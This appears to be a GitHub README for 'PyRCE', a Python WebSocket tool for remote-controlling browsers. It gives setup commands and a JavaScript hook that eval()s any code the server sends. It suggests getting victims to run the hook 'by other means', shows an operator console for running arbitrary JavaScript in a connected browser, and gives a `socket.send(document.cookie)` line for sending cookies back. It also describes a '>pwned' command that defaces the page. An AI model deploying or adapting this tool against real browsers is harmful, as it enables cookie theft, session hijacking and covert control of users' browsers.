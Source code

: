 # PyRCE

```bash
git clone https://github.com/jack-michaud/PythonWebsocketRCE.git
cd PythonWebsocketRCE
virtualenv env
pip install -r requirements.txt
python ./main.py
```

```
PyRCE - Commands: listen, list, control
>
```

## Usage
If you run `python main.py`, then run in the CLI:

`>listen`

It will listen for connections. 

To connect a browser, run this in the console (or get it to run by other means?):
```javascript
var socket = new WebSocket('ws://localhost:1337', 'chat'); 
socket.onmessage = function (event) {
    eval(event.data);
}
```
In the PyRCE console:
```
[*] Listening on 0.0.0.0:1337
[==>] Received incoming connection from ...
[*] Handling connection
[*] Is valid WebSocket: True
[<==] Attempting to make connection...
[*] Succeeded!

```
Then type:

```
>control
[?] Which client?
1. ...
2. ...
>[the number label of the session you wish to control]
```

Then you will be prompted to run any Javascript you want.

```
Javascript code interpreter! '>quit' to close out interpreter,
'>close' to close the client connection. '>help' for custom commands.
[?] Javascript Code to Execute on ...:

```
To send data back to the server, you can use `socket.send`. E.g.:

```javascript
socket.send(document.cookie);
```

### Custom Commands

See commands.py for implementations of custom commands for the Javascript interpreter. They support multiple command arguments and are easy to implement!

```python
# commands.py
class CommandExample(CMD):

    def __init__(self):
        super(CommandExample, self).__init__(
              "ExampleTitle",
              "commandcall",
              "Description of this example commmand")

    def get_payload(self):
        # You have access to self.argv[] for the argument array (self.argv[0] is the call)
        return "[Javascript to run]"
 ```
 
#### My favorite command: >pwned

```
PWN
|--- >pwned
|--- Clears the whole screen and replaces it with glitchy text (usage: >pwned [Text])

>pwned daniel sux
```
![img](https://lh3.googleusercontent.com/TuvEN0G0OIKL28mW59n9pqdCJhQJb-wIQFejSbKoYsn2_mZJi3pAZIiM5fqg0KENe9FuYDsaY9rGEMvrdyRpjKKWmgOozQFLm-EuC3F4Zz23CU0nUqzjeL6wStaws-evBEOqyWF-i5ehznR8TECr5lJsBqOfflcDco2fkMkXq86pfJ_y03ThZAoIHMv_0pShKiVgI4TB7F74lwFBjRlD21uVhcLJhfTgdk1aFRpuF034upazQc3FbbpJSsnhIHpF-XCLwRAcXoSF-DN3vobpg_ld5msezgp3IM1FE1TNrcPd0judTqvIJndOOn9d4ddt_jD6HLo8HpU6O-3EGbs23SpGXe_WNFqqA5GksYSF9YHDdwKnDkX_FNgnt0-ZdiojLQSdgcsG-sSbLVMsCZZreCN1SS5EmeA30_v_zEzpG6R9iFlBpmSXvbQh74ronCd8BL3iiZAuVkKbgspey6WjY3pamYaCztEmW2NghvWirE3hrNcCG8BTvlhCKzhMyBnl6zJupCJhxWX4yS7hAZU5B3Q3BKd8_TbwAGnDM4gtNMnLhdWMWJlKxT6Gmdbzmhm47EKgCI4Hr-vLJk_lAxdW3fWnwEEkrOa0gC2x13azW4bj2jlgVwih-Q=w600-h360-no)


